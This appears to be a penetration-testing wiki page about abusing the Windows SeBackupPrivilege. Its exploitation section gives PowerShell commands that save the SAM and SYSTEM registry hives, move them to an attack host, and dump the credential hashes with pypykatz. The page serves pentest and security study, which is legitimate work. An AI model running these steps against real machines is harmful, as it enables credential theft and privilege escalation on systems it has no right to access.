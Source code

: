 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# SeBackupPrivilege

## Information

Allows file content retrieval, even if the security descriptor on the file might not grant such access. A caller with **SeBackupPrivilege** enabled obviates the need for any ACL-based security check.

Default setting: [Administrators](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#administrators), [Backup Operators](../groups/backup-operators.md), and [Server Operators](../groups/server-operators.md).

## Exploitation

{% hint style="info" %}
For **AD exploitation** check [Backup Operators](../groups/backup-operators.md#exploitation), [Server Operators](../groups/server-operators.md#exploitation).
{% endhint %}

### Windows 10

```powershell
# move to the c:\ directory
cd c:\
# create a Temp directory
mkdir Temp
# copy the sam and system files to Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
# move inside Temp
cd Temp
# download files on the attack host
download sam
download system
```

Dump `sam` from the attack host.

```bash
pypykatz registry --sam sam system
```

## Resources

{% tabs %}
{% tab title="First Tab" %}

{% endtab %}

{% tab title="SeBackupPrivilege" %}
{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/" %}
{% endtab %}
{% endtabs %}
